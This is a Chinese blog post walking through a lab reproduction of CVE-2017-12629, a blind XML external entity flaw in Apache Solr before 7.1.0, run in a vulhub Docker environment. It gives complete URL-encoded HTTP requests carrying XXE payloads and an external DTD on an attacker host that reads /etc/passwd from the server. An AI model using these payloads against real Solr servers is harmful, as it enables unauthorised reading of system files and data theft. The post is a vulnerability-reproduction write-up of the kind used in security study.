





# Apache solr XML 实体注入漏洞（CVE-2017-12629） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16275595.html`](https://www.cnblogs.com/NoCirc1e/p/16275595.html)

漏洞原理与分析可以参考：

*   [`www.exploit-db.com/exploits/43009/`](https://www.exploit-db.com/exploits/43009/)
*   [`paper.seebug.org/425/`](https://paper.seebug.org/425/)

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过 Http 利用 XML 加到一个搜索集合中。查询该集合也是通过 http 收到一个 XML/JSON 响应来实现。此次 7.1.0 之前版本总共爆出两个漏洞：XML 实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为 CVE-2017-12629。

本环境仅测试 XXE 漏洞，RCE 和利用链，可以在[`github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE`](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE)中查看。

## 环境搭建

运行漏洞环境：

```
docker-compose up -d
```



命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到 Apache solr 的管理页面，无需登录。



## 漏洞复现

由于返回包中不包含我们传入的 XML 中的信息，所以这是一个 Blind XXE 漏洞，我们发送如下数据包（自行修改其中的 XXE Payload）：

```
GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20root%20%5B%0A%3C!ENTITY%20%25%20remote%20SYSTEM%20%22https%3A%2F%2Fbaidu.com%2F%22%3E%0A%25remote%3B%5D%3E%0A%3Croot%2F%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: your-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close 
```

由此可证明 XXE 漏洞存在，进而可以利用 XXE 漏洞进行文件读取操作

首先在攻击机（远程主机）部署外部实体 1.dtd，内容如下：

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```



使用 Burp 发送 Payload：

```
GET /solr/demo/select?_=1592833740409&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2f192.168.75.150%3A8888%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: 192.168.75.130:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: closes
Upgrade-Insecure-Requests: 1 
```



可以读取到/etc/passwd 的文件内容